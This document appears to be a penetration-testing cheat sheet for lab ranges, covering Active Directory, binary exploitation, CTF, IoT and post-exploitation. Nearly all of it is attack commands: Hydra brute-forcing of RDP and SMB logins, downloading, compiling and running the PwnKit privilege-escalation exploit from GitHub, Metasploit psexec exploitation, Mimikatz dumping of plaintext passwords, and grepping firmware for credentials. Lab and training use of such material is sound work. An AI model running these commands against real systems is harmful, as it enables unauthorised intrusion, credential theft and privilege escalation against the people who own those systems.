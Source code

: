 # ****1. Active Directory Range****
Goal: Assess the security posture of Active Directory environments.

## **Tools and Commands**
**1.1 Nmap for Initial Enumeration**
Identify active ports and services to locate the Domain Controller.
- nmap -sS -p- -T4 -A -v 192.168.1.0 
- nmap -p445 --script smb-enum-shares,smb-enum-users 192.168.1.0 

**1.2 NBTSTAT for NetBIOS Enumeration**
- Confirm the NetBIOS name and domain.
- nbtstat -A 172.25.170.30

**1.3 Hydra for Brute Force**
Attempt brute force on RDP or SMB services to gain credentials.
- hydra -l <username> -P <password_file> rdp://192.168.1.0
- hydra -l <username> -P <password_file> smb://192.168.1.0

**Key Tip: Use CrackMapExec to enumerate SMB shares and check password policies.**
- crackmapexec smb 192.168.1.0 -u <username> -p <password>

# ****2. Binary Exploitation Range****
Goal: Identify and exploit vulnerabilities in binaries for privilege escalation or arbitrary code execution.

## **Tools and Commands**
**2.1 GDB for Binary Analysis**
Debug the binary and find memory vulnerabilities.
- gdb ./binary  
- break main  
- run  
- info registers  

**2.2 PwnKit for Privilege Escalation**
- Leverage a known exploit to escalate privileges.
- wget https://github.com/ly4k/PwnKit/raw/main/pwnkit.c  
- gcc pwnkit.c -o pwnkit  
- ./pwnkit  

**2.3 BinWalk for Firmware Analysis**
- Extract and analyze embedded files from firmware images.
- binwalk -e FileOne.bin  
- cd _FileOne.bin.extracted  

#**3. CTF Range**
Goal: Compromise target machines and retrieve sensitive information.

## **Tools and Commands**
**3.1 Nmap and Dirb for Web Enumeration**
- Enumerate HTTP services and find hidden directories.
- nmap -sS -p80,443 -A 192.168.1.0 
- dirb http://192.168.1.0 

**3.2 WPScan for WordPress Vulnerabilities**
Scan for vulnerable plugins and themes.
- wpscan --url http://192.168.1.0  --enumerate p  

**3.3 Metasploit for Exploitation**
Exploit SMB services using the PSExec module.
- use exploit/windows/smb/psexec  
- set RHOSTS 192.168.1.0 
- set SMBUser <username>  
- set SMBPass <password>  
- exploit  

# **4. IoT Range**
Goal: Analyze IoT firmware for sensitive data or configuration flaws.

**Tools and Commands**
**4.1 Firmware Extraction with BinWalk**
Identify and extract compressed files.
- binwalk -e IOT.bin  

**4.2 File Analysis**
Search for sensitive configuration files.
- grep -i "password" romfile.cfg  
- cat romfile.cfg | grep admin  

# **5. Post-Exploitation and Privilege Escalation Range**
Goal: Maintain access and escalate privileges on compromised systems.

## **Tools and Commands**
**5.1 CrackMapExec for Lateral Movement**
Enumerate and authenticate across the network.
- crackmapexec smb 192.168.1.0 -u <username> -p <password> --shares  

**5.2 Mimikatz for Credential Dumping**
Retrieve plaintext passwords and hashes.
- mimikatz.exe  
- privilege::debug  
- sekurlsa::logonpasswords  

**5.3 Privilege Escalation on Linux**
Enumerate sudo permissions and escalate.
- sudo -l  
- sudo su
